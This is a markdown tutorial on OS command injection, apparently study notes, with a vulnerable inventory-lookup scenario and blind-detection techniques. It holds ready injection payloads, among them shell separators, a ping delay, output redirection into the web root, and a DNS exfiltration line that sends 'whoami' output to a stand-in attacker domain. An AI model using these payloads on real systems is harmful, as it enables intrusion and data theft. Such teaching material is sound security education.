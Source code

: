 
# Comman Injection

Command Injection and OS command Injection also known as shell injection is a web security vulnerability in which an attack can run arbitrary commands in a server Operating System. This will lead to a full compromise of the application and all its data. An attacker can use that system to compromise another computer in the infrastructure that is not accessible on the internet and pivot its way into the organization.


**Scenario**

Consider an application that let users see if something is in the inventory or not. That information is accessed via a URL like the following.

```
https://example.com/inventory?productID=45&section=42
```

To provide the inventory information, the application queries some legacy systems. For historical reasons, the functionality is implemented by calling out a shell command with the product and store IDs as arguments.

```
inventory.pl 45 42
```

This command outputs the inventory status for the specified item, which is returned to the user. Since the application implements no defenses against OS command injection, an attacker can submit the following input to execute an arbitrary command.

```
& echo OS_Command_Injection_success &
```

if this input is submitted in the productID parameter, then the command executed by the application is

```
inventory.pl & echo OS_Command_Injection_success & 42
```

The `echo` command simply causes the supplied string to be echoed in the output and is a useful way to test for some types of OS command injection. The `&` character is a shell command separator, and so what gets executed is three separate commands one after another. As a result, the output returned to the user is

```
Error - productID was not provided
OS_Command_Injection_success
42: command not found
```

The three lines of output demonstrate that:

- The original `inventory.pl` command was executed without its expected arguments, and so returned an error message.
- The injected `echo` command was executed, and the supplied string was echoed in the output.
- The original argument `42` was executed as a command, which caused an error.

Placing the additional command separator `&` after the injected command is generally useful because it separates the injected command from whatever follows the injection point. This reduces the likelihood that what follows will prevent the injected command from executing.

### Useful Commands

When you have identified an OS command injection vulnerability, it is generally useful to execute some initial commands to obtain information about the system that you have compromised. Below is a summary of some commands that are useful on Linux and Windows platforms

| Purpose of command | Linux | Windows |
| --- | --- | --- |
| Name of current user | `whoami` | `whoami` |
| Operating System | `uname -a` | `ver` |
| Network configuration | `ifconfig` | `ipconfig /all` |
| Network connections | `netstat -an` or `ss -tupln` | `netstat -an` |
| Running processes | `ps -ef` | tasklist |

### Blind OS command Injection vulnerabilities

Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.

Consider a website that lets users submit feedback about the site. The user enters their email address and a feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the `mail` program with the submitted details. For example

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

The output from the `mail` command (if any) is not returned in the application's responses, so using the `echo` payload would not be effective. In this situation, you can use a variety of other techniques to detect and exploit a vulnerability.

### Detecting blind OS command injection using time delays

You can use an injected command that will trigger a time delay, allowing you to confirm that the command was executed based on the time that the application takes to respond. The `ping` command is an effective way to do this, as it lets you specify the number of ICMP packets to send, and therefore the time taken for the command to run

```bash
& ping -c 10 127.0.0.1 &
```

This command will cause the application to ping its loopback network adapter for 10 seconds.

### Exploiting blind OS command injection by redirecting output

You can redirect the output from the injected command into a file within the web root that you can retrieve using the browser. For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input

```
& whoami > /var/www/static/whoami.txt &
```

The `>` character sends the output from the `whoami` command to the specified file. You can then use the browser to fetch `https://vulnerable-website.com/whoami.txt` to retrieve the file and view the output from the injected command.

### Exploiting blind OS command injection using out-of-band (OAST) techniques

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example

```
& nslookup kgji2ohoyw.web-attacker.com &
```

This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.

The out-of-band channel also provides an easy way to exfiltrate the output from injected commands

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

This will cause a DNS lookup to the attacker's domain containing the result of the `whoami` command

```
wwwuser.kgji2ohoyw.web-attacker.com
```

### Ways of injecting OS commands

A variety of shell metacharacters can be used to perform OS command injection attacks.

Several characters can be used as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems

```
&
&&
|
||
```

The following command separators work only on Unix-based systems

```
;
Newline 0x0a or \n
```

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command

```
`whomai`
```

```
$(whoami)
```

Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input you control appears within quotation marks in the original command. In this situation, you must terminate the quoted context (using `"` or `'`) before using suitable shell metacharacters to inject a new command.
